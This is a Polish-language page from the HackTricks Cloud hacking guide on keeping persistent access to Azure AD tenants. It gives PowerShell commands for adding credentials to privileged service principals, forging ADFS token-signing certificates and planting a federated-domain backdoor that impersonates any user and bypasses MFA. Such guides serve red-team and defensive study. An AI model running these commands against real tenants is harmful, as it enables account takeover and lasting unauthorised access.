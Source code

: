 # Az - Trwałość

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### Nielegalne przyznanie zgody

Domyślnie każdy użytkownik może zarejestrować aplikację w Azure AD. Możesz więc zarejestrować aplikację (tylko dla docelowego najemcy), która wymaga uprawnień o wysokim wpływie z zgodą administratora (zatwierdzić ją, jeśli jesteś administratorem) - takie jak wysyłanie wiadomości w imieniu użytkownika, zarządzanie rolami itp. To pozwoli nam na **wykonanie ataków phishingowych**, które mogą być bardzo **owocne** w przypadku powodzenia.

Ponadto, możesz również zaakceptować tę aplikację za pomocą swojego użytkownika jako sposób na utrzymanie dostępu do niej.

### Aplikacje i podmioty usług

Z uprawnieniami Administratora aplikacji, GA lub niestandardową rolą z uprawnieniami microsoft.directory/applications/credentials/update, możemy dodać poświadczenia (sekret lub certyfikat) do istniejącej aplikacji.

Możliwe jest **celowanie w aplikację o wysokich uprawnieniach** lub **dodanie nowej aplikacji** o wysokich uprawnieniach.

Interesującą rolą do dodania do aplikacji byłaby rola **Administratora uwierzytelniania uprzywilejowanego**, ponieważ umożliwia ona **resetowanie hasła** dla Globalnych Administratorów.

Ta technika pozwala również na **ominięcie MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Dla uwierzytelniania opartego na certyfikatach

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federacja - Certyfikat podpisywania tokenów

Posiadając uprawnienia **DA** w lokalnym AD, możliwe jest utworzenie i importowanie **nowych certyfikatów podpisywania tokenów** oraz **certyfikatów deszyfrowania tokenów** o bardzo długiej ważności. Pozwoli nam to **zalogować się jako dowolny użytkownik**, którego znamy ImuutableID.

**Uruchom** poniższą komendę jako **DA na serwerze ADFS**, aby utworzyć nowe certyfikaty (domyślne hasło to 'AADInternals'), dodać je do ADFS, wyłączyć automatyczne odświeżanie i zrestartować usługę:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Następnie zaktualizuj informacje o certyfikacie w Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federacja - Zaufana domena

Posiadając uprawnienia GA na dzierżawie, można **dodać nową domenę** (musi zostać zweryfikowana), skonfigurować jej typ uwierzytelniania na Federated i skonfigurować domenę, aby **zaufać określonemu certyfikatowi** (any.sts w poniższej komendzie) oraz wydawcy:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Odnośniki

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>

